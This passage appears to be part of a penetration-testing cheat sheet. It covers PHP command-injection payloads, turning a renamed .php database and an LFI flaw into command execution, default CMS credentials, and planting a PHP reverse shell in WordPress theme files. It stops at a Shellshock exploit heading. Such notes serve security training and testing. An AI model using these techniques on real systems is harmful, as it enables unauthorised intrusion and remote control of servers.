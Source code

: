   * You can then try simple command injection.

    ```text
    <?php system ("ls"); ?>
    ```

  * You can then try to execute any command through a PHP variable in the URL.  Note that this may not work.

    ```text
    <?php echo system ($_REQUEST['teststring']); ?>
    ```
* Change the Type to Text for the field. Note that you don't have to put any value in the field.
* Rename the database to a name with the extension of .php.
* This gives us an opportunity to inject shellcode which can be executed with an LFI vulnerability on the web page to run the code.  If we execute with LFI, we just have to direct to the location of the database and then add a parameter \(teststring\) to inject whatever command we want.

  ```text
  ...?variable=[location of renamed DB from step 4].php
  ```

  ```text
  ...?variable=[location of renamed DB from step 4].php&teststring=[command]
  ```

* Once you've confirmed that command execution exists, then we can move onto a reverse shell script \(can be any reverse shell – not just a PHP one because we have direct OS command injection\).

## Content Management Systems \(CMS\)

* Usually have default creds like admin:admin.
* With Admin access:
  * Look for editing Themes, Plugins, File Uploads, Folders, or Backups as these functions almost always run PHP code to get code execution.  If we can't do things like edit and save these functions, then our access is likely read-only \(even if we're admin\) and not able to get code execution.

### Wordpress

* The login pages have a "Forgot Password" section which can allow you to enumerate valid and invalid usernames.
* If you have admin rights to the themes of the web application:
* Edit the header.php or 404.php pages to include a PHP reverse shell.
* Navigate to the web address where the edited page is to execute the reverse shell.

## Shellshock

### Background

* CVE-2014-7169, 6277, 7186, 7187
* Flaw in the way that Bash handled functions being defined within the environmental variables and exported them.
* Adversary identifies areas where input from attacker is used in a Bash environmental variable.

### Exploit
